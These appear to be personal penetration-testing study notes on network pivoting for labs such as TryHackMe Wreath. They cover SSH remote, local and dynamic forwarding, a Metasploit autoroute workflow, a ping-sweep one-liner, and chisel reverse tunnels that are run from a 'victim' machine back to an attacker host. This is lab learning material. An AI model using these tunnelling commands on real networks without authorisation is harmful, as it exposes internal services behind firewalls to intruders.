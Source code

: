 [Labs](https://attackdefense.com/listing?labtype=linux-security-pivoting&subtype=linux-security-pivoting-basics)
[Cheatsheet](https://web.archive.org/web/20181108223619/https://bitrot.sh/cheatsheet/14-12-2017-pivoting/)
[Blog](https://medium.com/@6c2e6e2e/network-pivoting-like-a-pro-2fa04a569d8c)
[Red teamers guide to pivoting](https://web.archive.org/web/20181110130047/https://artkond.com/2017/03/23/pivoting-guide/)
[Bitrot](https://web.archive.org/web/20180405115503/https://bitrot.sh/)
[Lab](https://tryhackme.com/room/wreath)
[Lab](https://tryhackme.com/room/borderlands)
# SSH port forwarding

Port tunneling or forwarding is a networking technique that allows traffic between local and remote machine.
We use port tunneling when we either can’t reach a destination because it is protected behind a firewall or only accessible internally.

## Remote Forwarding
Exposing the internal services and interact with them from attacker machine.
so basically :

|Victim side|Attacker side|
|--|--|
|127.0.0.1:3306|192.168.0.106:8080|
|127.0.0.1:5900|192.168.0.106:5555|

With remote port forwarding attacker is the one listening locally for traffic from the compromised server.

`ssh -R RemortPort:localhost:localport attacker@192.168.0.106`

Commands will be ==executed on victim machine==:
```
ssh -R 8080:127.0.0.1:3306 attacker@192.168.0.106
ssh -R 5555:127.0.0.1:5900 attacker@192.168.0.106
```

## Local Forwarding
Making remote service available on local machine.
```
ssh -L local_port:remort_ip:remort_port victim@ip

ssh -L 5050:127.0.0.1:21 admin@10.10.10.90
```
means on attacker machine local port 5050 will be routed to port 21 of victim machine 10.10.10.90.


## ssh -D - dynamic port forwarding 

### If there is no way then use msf
****
web_delivery > autoroute > ping sweep > Will get all the internal services.
****


# Manual
To find out the avaiable hosts in linux we will do ping speep
`for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done`
by this simple script we will be able to find up hosts.

***So 3 ways:***
1. ssh from the machine to attacker (remote)
2. ssh from attacker to machine (local)
3. autoroute for internal ip running services.

![](https://i.imgur.com/aTxpNSI.png)

# Wreath
**Contents**
- [ ] Code Analysis (Python and PHP)
- [ ] Locating and modifying public exploits  
    
- [ ]  Simple webapp enumeration and exploitation  
    
- [ ] Git Repository Analysis
- [ ] Simple Windows Post-Exploitation techniques
- [ ] CLI Firewall Administration (CentOS and Windows)
- [ ] Cross-Compilation techniques
- [ ] Coding wrapper programs
- [ ] Simple exfiltration techniques  
    
- [ ] Formatting a pentest report



# Pivoting without SSH

**Usage:**

Start the server in kali: (Attacker Machine) 10.10.14.3
```bash
./chisel server -p 8000 --reverse
```

Start the client in victim: (Victim Machine) 10.10.10.240
```bash
# Listen on Kali 80, forward to localhost port 80 on client
chisel client 10.10.14.3:8000 R:80:127.0.0.1:80

# Listen on Kali 4444, forward to 10.10.10.240 port 80
chisel client 10.10.14.3:8000 R:4444:10.10.10.240:80

# Create SOCKS5 listener on 1080 on Kali, proxy through client
chisel client 10.10.14.3:8000 R:socks

```


**Basic Client Listener:**
If you are on target that you cant connect to the internet but can route to my attacking machine. 
1. Start the server on attacker machine: `chisel server -p 8000`
2. `./chisel client 1.1.1.1:8000 9001:www.exploit-db.com:443` on the victim machine. This will connect to attacker box and starts listerner on the target box. Any traffic sent to that port in victim machine will be sent to my server and exploitdb will get accessed by attacker on victim machine.
3. `curl http://127.0.0.1:9001`

**Basic Server Listening:** (Access Internal Network of Victim)
1. `./chisel server -p 8000 -reverse` on attcker machine.
2. `.\c.exe client 10.10.14.3:8000 R:8888:localhost:8888` on victim machine so that all the traffic i send to attacker port will be routed to internal service on victim machine.


4. 
